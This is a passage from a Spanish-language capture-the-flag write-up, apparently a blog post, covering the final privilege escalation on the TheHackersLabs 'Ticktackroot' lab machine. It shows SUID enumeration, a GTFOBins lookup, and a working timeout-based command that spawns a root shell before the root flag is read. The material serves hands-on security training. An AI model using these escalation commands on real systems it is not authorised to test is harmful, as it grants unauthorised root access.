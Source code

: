 Aunque le agregaré un **echo** para que lo diga con más claridad:
```bash
robin@TheHackersLabs-Ticktackroot:~$ cmp -s /usr/bin/timeout /usr/bin/timeout_suid && echo "Son idénticos" || echo "Son diferentes"
Son idénticos
```
Genial, son el mismo binario.

Una cosita más, si investigamos si hay algún archivo con **permisos SUID**, aparecerá ese binario:
```bash
robin@TheHackersLabs-Ticktackroot:~$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount3
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/timeout_suid
...
robin@TheHackersLabs-Ticktackroot:~$ ls -la /usr/bin/timeout_suid
-rwsr-sr-x 1 root root 39880 oct  7  2024 /usr/bin/timeout_suid
```

Ahora, si investigamos el **binario timeout** en la **guía de GTFOBins**, encontraremos una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/timeout/" target="_blank">GTFOBins: timeout</a>

Utilizaremos este:

<p align="center">
<img src="/assets/images/THL-writeup-tickTackRoot/Captura1.png">
</p>

Probémoslo:
```bash
robin@TheHackersLabs-Ticktackroot:~$ sudo timeout_suid --foreground 7d /bin/bash
root@TheHackersLabs-Ticktackroot:/home/robin# whoami
root
```
Excelente, ya somos **Root**.

Vayamos por la última flag:
```bash
root@TheHackersLabs-Ticktackroot:/home/robin# cd /root/
root@TheHackersLabs-Ticktackroot:~# ls
root.txt
root@TheHackersLabs-Ticktackroot:~# cat root.txt
...
```
Y con esto, terminamos la máquina.
